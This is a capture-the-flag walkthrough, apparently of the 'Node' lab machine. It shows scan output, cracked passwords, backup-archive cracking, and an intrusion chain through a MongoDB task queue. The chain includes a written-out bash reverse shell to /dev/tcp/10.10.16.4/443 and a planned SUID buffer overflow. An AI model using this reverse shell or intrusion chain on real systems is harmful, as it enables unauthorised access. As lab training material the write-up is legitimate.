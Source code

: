 Started with a nmap scan
```
22/tcp   open  ssh                syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwesV+Yg8+5O97ZnNFclkSnRTeyVnj6XokDNKjhB3+8R2I+r78qJmEgVr/SLJ44XjDzzlm0VGUqTmMP2KxANfISZWjv79Ljho3801fY4nbA43492r+6/VXeer0qhhTM4KhSPod5IxllSU6ZSqAV+O0ccf6FBxgEtiiWnE+ThrRiEjLYnZyyWUgi4pE/WPvaJDWtyfVQIrZohayy+pD7AzkLTrsvWzJVA8Vvf+Ysa0ElHfp3lRnw28WacWSaOyV0bsPdTgiiOwmoN8f9aKe5q7Pg4ZikkxNlqNG1EnuBThgMQbrx72kMHfRYvdwAqxOPbRjV96B2SWNWpxMEVL5tYGb
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKQ4w0iqXrfz0H+KQEu5D6zKCfc6IOH2GRBKKkKOnP/0CrH2I4stmM1C2sGvPLSurZtohhC+l0OSjKaZTxPu4sU=
|   256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5cgCL/RuiM/AqWOqKOIL1uuLLjN9E5vDSBVDqIYU6y
3000/tcp open  hadoop-tasktracker syn-ack ttl 63 Apache Hadoop
| hadoop-datanode-info: 
|_  Logs: /login
|_http-favicon: Unknown favicon MD5: 30F2CC86275A96B522F9818576EC65CF
|_http-title: MyPlace
| hadoop-tasktracker-info: 
|_  Logs: /login
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Trying to hit a couple known `xml` files for this apache and everytime we do `/someting` and it does not exist we get routed back to the main site running a gobuster scan
```
200      GET       90l      249w     3861c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       15w      173c http://10.10.10.58:3000/uploads => http://10.10.10.58:3000/uploads/
301      GET        9l       15w      171c http://10.10.10.58:3000/assets => http://10.10.10.58:3000/assets/
301      GET        9l       15w      179c http://10.10.10.58:3000/assets/css => http://10.10.10.58:3000/assets/css/
301      GET        9l       15w      177c http://10.10.10.58:3000/assets/js => http://10.10.10.58:3000/assets/js/
301      GET        9l       15w      187c http://10.10.10.58:3000/assets/js/misc => http://10.10.10.58:3000/assets/js/misc/
301      GET        9l       15w      171c http://10.10.10.58:3000/vendor => http://10.10.10.58:3000/vendor/
301      GET        9l       15w      185c http://10.10.10.58:3000/assets/js/app => http://10.10.10.58:3000/assets/js/app/
301      GET        9l       15w      209c http://10.10.10.58:3000/assets/js/app/controllers => http://10.10.10.58:3000/assets/js/app/controllers/
301      GET        9l       15w      191c http://10.10.10.58:3000/vendor/bootstrap => http://10.10.10.58:3000/vendor/bootstrap/
301      GET        9l       15w      199c http://10.10.10.58:3000/vendor/bootstrap/css => http://10.10.10.58:3000/vendor/bootstrap/css/
301      GET        9l       15w      197c http://10.10.10.58:3000/vendor/bootstrap/js => http://10.10.10.58:3000/vendor/bootstrap/js/
301      GET        9l       15w      203c http://10.10.10.58:3000/vendor/bootstrap/fonts => http://10.10.10.58:3000/vendor/bootstrap/fonts/
301      GET        9l       15w      185c http://10.10.10.58:3000/vendor/jquery => http://10.10.10.58:3000/vendor/jquery/
200      GET       90l      249w     3861c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       15w      173c http://10.10.10.58:3000/uploads => http://10.10.10.58:3000/uploads/
301      GET        9l       15w      171c http://10.10.10.58:3000/assets => http://10.10.10.58:3000/assets/
301      GET        9l       15w      179c http://10.10.10.58:3000/assets/css => http://10.10.10.58:3000/assets/css/
301      GET        9l       15w      177c http://10.10.10.58:3000/assets/js => http://10.10.10.58:3000/assets/js/
301      GET        9l       15w      187c http://10.10.10.58:3000/assets/js/misc => http://10.10.10.58:3000/assets/js/misc/
301      GET        9l       15w      171c http://10.10.10.58:3000/vendor => http://10.10.10.58:3000/vendor/
301      GET        9l       15w      185c http://10.10.10.58:3000/assets/js/app => http://10.10.10.58:3000/assets/js/app/
301      GET        9l       15w      209c http://10.10.10.58:3000/assets/js/app/controllers => http://10.10.10.58:3000/assets/js/app/controllers/
301      GET        9l       15w      191c http://10.10.10.58:3000/vendor/bootstrap => http://10.10.10.58:3000/vendor/bootstrap/
301      GET        9l       15w      199c http://10.10.10.58:3000/vendor/bootstrap/css => http://10.10.10.58:3000/vendor/bootstrap/css/
301      GET        9l       15w      197c http://10.10.10.58:3000/vendor/bootstrap/js => http://10.10.10.58:3000/vendor/bootstrap/js/
301      GET        9l       15w      203c http://10.10.10.58:3000/vendor/bootstrap/fonts => http://10.10.10.58:3000/vendor/bootstrap/fonts/
301      GET        9l       15w      185c http://10.10.10.58:3000/vendor/jquery => http://10.10.10.58:3000/vendor/jquery/
```
Looking at the API  if we go to the `/api/users` we get 4 users and there hashed password we can try cracking them and we cracked three 
```
myPl4ceAdm1nAcc0uNT:manchester
mark:showflake
tom:spongebob
```
We got access to the admin account now when we log in to that account we can download a backup `myplace_backup` its `base64` encoded we can decode it and and then put it in a zip folder `cat myplace.backup | base64 -d > myplace-backup.zip` and this zip folder has a password on it so we can do `zip2john myplace-backup.zip hash` and then we can crack it `john hash --wordlist=rockyou.txt` and it cracked to `magicword` and we unzip it now and its a full backup of the site looking at the `app.js` file it has creds for a mongoDB `mark:5AYRft73VtFpc84k` and we can also SSH with these creds but we need to get to the `tom` account going to run linpeas to see what we might be able to do there is a `/usr/local/bin/backup` with admin and root perms but we dont have access to it we can connect to the mongoDB instance `mongo -u mark -p 5AYRft73VtFpc84k scheduler` and we can write task into the DB if we do `db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.16.4/443'"})` and wait for the task to be done and now we are the `tom` user now we can mess with the binary we found with suid privilege's running it we get no out put back but if we do `/usr/local/bin/backup 1 2 3` we need to do a buffer overflow on this and can make a python script to automate this and then run it in a loop until we get shell access 